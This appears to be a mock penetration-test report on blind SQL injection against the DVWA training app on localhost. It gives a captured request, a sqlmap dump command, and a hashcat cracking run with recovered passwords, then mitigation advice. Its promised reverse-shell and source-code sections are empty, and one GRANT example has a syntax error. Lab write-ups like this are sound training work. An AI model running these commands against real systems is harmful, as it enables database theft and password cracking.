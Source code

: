 # Blind SQL Injection Remote Code Execution Report


## Table of Contents
- [**Outline**](#section-0)
- [**Vulnerability Explanation**](#section-1)
- [ **Proof of Concept - Establishing a  Reverse Shell**](#section-2)
- [ **Source Code Analysis**](#section-3)
- [**Mitigating Blind SQL Injection Vulnerability**](#section-4)

## Outline {#section-0}
The goal of this write-up is to document and demonstrate Blind SQL Injection vulnerability against the DVWA application. The objective of this attack was to gain a Remote Code Execution (RCE) as `www-data`. This report mocks a penetration testing report and a debriefing situation for a client. 

## Vulnerability Explanation {#section-1}

| Information | Explanation                            |
|-------------|----------------------------------------|
| Name        | SQLi                                   |
| Severity    | High                                   |
| CVSS        | 8.8                                    |
| String      | AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H    |
| Path        | http://127.0.0.1/vulnerabilities/sqli/ |


SQL injection is a security vulnerability that allows attackers to manipulate SQL queries executed by a web application's database.  

![](/assets/sqlb/map.png)   
In addition, Blind SQL injection is a type of SQL injection vulnerability, however, the HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.  

![](/assets/sqlb/map2.png)   

This vulnerability poses a significant threat to the Confidentiality, Integrity, and Availability (CIA) triad of a system, as it can result in data breaches, unauthorized data disclosure, data manipulation,  and potential system downtime. It may also lead to a full compromise of a system through Remote Code Execution. 


## Proof of Concept {#section-2}
### Automating the Process SQLMap 

To exploit the vulnerability, the tester utilized SQLMap.  SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities in web applications. As such, SQLMap automatically identifies vulnerable parameters and SQL injection techniques to use depending on the Database Management System (DBSM).

The tester first intercepted the SQL query with Burp Suite and fed SQLmap with the intercepted data. This  captured  request file was named `hack`
![](/assets/sqlb/intercept.png)   


```bash
echo 'GET /vulnerabilities/sqli_blind/?id=2&Submit=Submit HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit
Cookie: PHPSESSID=dse3mdg76nb5nbp3sg3md8g651; security=low
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1' > hack

``` 
Next the tester ran SQLmap with the `--dump` parameter  to exploit a SQL injection vulnerability in a web application. The `--dump` option extracts and retrieves the contents of the database,  revealing sensitive data stored within the data base.

```bash
sqlmap -r hack  --dump
```
![](/assets/sqlb/result.gif)   


Next, the tester extracted the saved data base password using hashcat.
 ```bash
 hashcat -a 0 -m 0  /tmp/sqlmapsioqi_7q979443/sqlmaphashes-v4n117tp.txt /usr/share/wordlists/rockyou.txt --show
 ```
The tester was able to retrieve the passwords for all the users with ease.
```bash
8d3533d75ae2c3966d7e0d4fcc69216b:charley
5f4dcc3b5aa765d61d8327deb882cf99:password
e99a18c428cb38d5f260853678922e03:abc123
0d107d09f5bbe40cade3de5c71e9e9b7:letmein

```


## Source Code Analysis {#section-3}
### Security-Low-Level
```bash

```


### Security-High-Level
```php

```



## Mitigating SQL Injection Vulnerability {#section-4}  
### Use Parameterized Queries
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = :username AND password = :password");
$stmt->bindParam(':username', $username);
$stmt->bindParam(':password', $password);
$stmt->execute();
```
 Bind  input values from the SQL code and ensures that they are treated as data rather than executable SQL statements. When a value is binded, it is securely passed to the database engine as a parameter, and the databasee interpreted the parameter as non sql data to be used in the query. Here the `:username` and `:password` are binded to the parameter `$username` and `$password` respectively.

### Principle of Least Privilege

Ensure that database users have the minimum required privileges necessary for their operations. Avoid granting excessive permissions to user accounts.
```bash
mysql -u root -p root
GRANT SELECT, INSERT, UPDATE, DELETE, ON mydatabase.* TO 'app'@'localhost';
FLUSH PRIVILEGES;
```
By excluding the `EXECUTE` privilege, the system restrict the user from executing stored procedures . Moreover, by removing the `INTO OUTFILE`, the system prevents users from writing query results directly to an output file on the server's file system. This would have prevented the Remote Code Execution demonstrated in the start of the report.

### Password Hashing: 
Use strong cryptographic hash functions with salt. Modern hashing algorithms such as Argon2id, bcrypt, and PBKDF2 automatically incorporate salt and are considered the standards when hashing passwords. A salt is a unique and randomly generated string that is added to each password during the hashing process. Since the salt is unique for every user, an attacker must crack hashes one at a time using the corresponding salt, rather than calculating a hash once and comparing it against every stored hash. This provides an additional layer of security for storing passwords. 
Below is an example code snippet in Python using the popular bcrypt library to hash and salt the password.
```bash
import bcrypt

# Generate a salt and hash the password
password = b"MyPassword123"  # Note the 'b' prefix to indicate a byte string
hashed_password = bcrypt.hashpw(password, bcrypt.gensalt())

# Print the hashed password
print(hashed_password)

```


## Conclusion
In conclusion, SQL injection is a critical vulnerability that poses significant risks to the security and integrity of database. It enables attackers to manipulate SQL queries and potentially gain unauthorized access, disclose sensitive information, or even execute arbitrary code. Preventing SQL injection is of prime importance to protect the confidentiality, integrity, and availability of data for users.

### Reference: 
[GrootBoan](https://security.grootboan.com/) , [SECN](https://secnhack.in/take-meterpreter-of-website-using-sqlmap-os-shell/) &
[Portswigger](https://portswigger.net/web-security/sql-injection#how-to-prevent-sql-injection) 